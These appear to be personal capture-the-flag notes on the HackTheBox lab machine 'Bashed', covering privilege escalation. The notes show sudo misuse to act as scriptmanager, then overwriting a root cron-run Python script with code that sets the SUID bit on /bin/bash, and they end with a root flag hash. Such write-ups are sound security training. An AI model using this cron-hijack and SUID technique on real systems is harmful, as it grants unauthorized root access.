 running sudo -l 

www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL

so we can basically run sudo -u scriptmanager and the command we want 
sudo -u scriptmanager /b

running ls on / directory we find a weird directory which is scripts 

running ls -la we find out that test.py time always gets up to date which means
means there is a corn job probably running every minute and execute that file 
![[Pasted image 20210923144417.png]]
and we own that file so we can modify the commands inside and do this 
#!/usr/bin/python
import os

os.system("chmod +s /bin/bash")
to give bash suid perm and we can just run it and get root
![[Pasted image 20210923144849.png]]
![[Pasted image 20210923144913.png]]
#rootflag cc4f0afe3a1026d402ba10329674a8e2